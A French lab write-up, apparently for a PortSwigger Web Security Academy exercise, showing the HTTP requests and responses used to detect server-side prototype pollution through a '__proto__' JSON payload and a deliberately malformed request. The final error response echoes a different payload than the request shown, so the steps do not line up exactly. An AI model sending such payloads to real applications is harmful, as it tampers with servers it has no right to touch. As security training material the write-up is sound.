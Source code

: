 # Lab

https://portswigger.net/web-security/prototype-pollution/server-side/lab-detecting-server-side-prototype-pollution-without-polluted-property-reflection

## Solution

L'objectif de ce lab est d'effectuer une pollution de prototype côté serveur sans utiliser de réflexion de propriété polluée.

C'est à dire que nous devons trouver un moyen de polluer le prototype des objets côté serveur et d'en voir les résultats.

Comme le lab précédent [Privilege escalation via server-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/server-side/lab-privilege-escalation-via-server-side-prototype-pollution), on peut utiliser la requête de modification de profil pour effectuer la pollution de prototype.

```html
POST /my-account/change-address HTTP/2
Host: 0a7200bc0321c0ad803ebccd001b0097.web-security-academy.net
Cookie: session=lX0eeW2NJ6xfkDv4zXAnlyxppw4ufAgH
Content-Length: 83
Content-Type: application/json;charset=UTF-8

{
    "sessionId":"lX0eeW2NJ6xfkDv4zXAnlyxppw4ufAgH",
    "__proto__": {
        "foo": "bar"
    }
}
```

Cependant, contrairment au lab précédent, la réponse ne contient pas la propriété `foo`:

```http
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"c5-o6PbsdZgCxd7ROzSod5GR7NXS6Q"
Date: Fri, 05 Jan 2024 11:36:28 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 197

{
  "username": "wiener",
  "firstname": "Peter",
  "lastname": "Wiener",
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "isAdmin": false
}
```

Pour voir si la pollution a bien fonctionné, on peut provoquer une erreur côté serveur de sérialisation de l'objet `req` en envoyant un JSON mal formé:

```html
POST /my-account/change-address HTTP/2
Host: 0a7200bc0321c0ad803ebccd001b0097.web-security-academy.net
Cookie: session=lX0eeW2NJ6xfkDv4zXAnlyxppw4ufAgH
Content-Length: 83
Content-Type: application/json;charset=UTF-8

{toto}
```

Et dans la réponse on voit bien la propriété `foo`:

```http
HTTP/2 500 Internal Server Error
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Etag: W/"177-Mb72lbb/R0ZZoYRmopsJJSIRE2c"
Date: Fri, 05 Jan 2024 11:39:05 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 375

{
  "error": {
    "expose": true,
    "statusCode": 101,
    "status": 101,
    "body": "{\"address_line_1\":\"Wiener HQ\",\"address_line_2\":\"One Wiener Way\",\"city\":\"Wienerville\",\"postcode\":\"BU1 1RP\",\"country\":\"UK\",\"sessionId\":\"xKO4TE1UcBE4eE0GkmjKSOG6ts6dYrtN\",\"__proto__\": {\r\n        \"status\":101\r\n    }hgj}",
    "type": "entity.parse.failed",
    "foo": "bar"
  }
}
```

Et le lab se valide en visualisant cette erreur avec la pollution effective.
